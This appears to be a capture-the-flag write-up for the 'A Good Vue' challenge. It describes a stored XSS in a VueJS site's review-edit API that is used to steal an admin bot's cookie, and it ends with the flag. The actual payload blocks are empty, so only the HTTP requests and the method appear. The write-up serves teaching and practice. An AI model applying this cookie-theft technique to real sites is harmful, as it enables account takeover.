





# A Good Vue
> Check out my cool artworks over there: goodvue.rumble.host If you want an Admin to check out your cool stuff: goodvue-bot.rumble.host

## About the Challenge
We have been given a website to test and this website using VueJS. Here is the preview of the website



If we press the `EXPLOIT` button in the corner of the website, it will return an alert


But there is an API endpoint that you can access [here](http://goodvue-api.rumble.host). If you access the homepage, the website will request to the API endpoint. Here is the HTTP request when the website send a request to `http://goodvue-api.rumble.host/get`

```
POST /get HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
...

{"id":"1","token":"OUR_COOKIE_VALUE"}
```

And it will return the review information such as likes, dislikes, and also the comments.

## How to Solve?
Because in the description there is an admin bot, so we know this is a XSS chall, and then because this website using VueJS i tried to check every request and I found this [url](http://goodvue.rumble.host/src/components/ImageComponent.vue)



As you can see there are 2 endpoints:
* http://goodvue-api.rumble.host/get
* http://goodvue-api.rumble.host/edit

When i tried to edit one of the review by sending this request

```
POST /edit HTTP/1.1
Host: goodvue-api.rumble.host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
...

{"id":"1","token":"OUR_COOKIE_VALUE","text":"test"}
```

Luckily our input was reflected in the website



And then i tried to use normal XSS payload

```html

```


And we got an alert, so I tried to create another payload to steal the admin cookie. Here is the payload I used to steal the cookie

```
"
```

After that, send the cookie to the admin and then wait until we got the admin's cookie



Decode the cookie using base64 and voilà



```
CSR{3v3n_vu3_c4n_h4v3_XSS}
```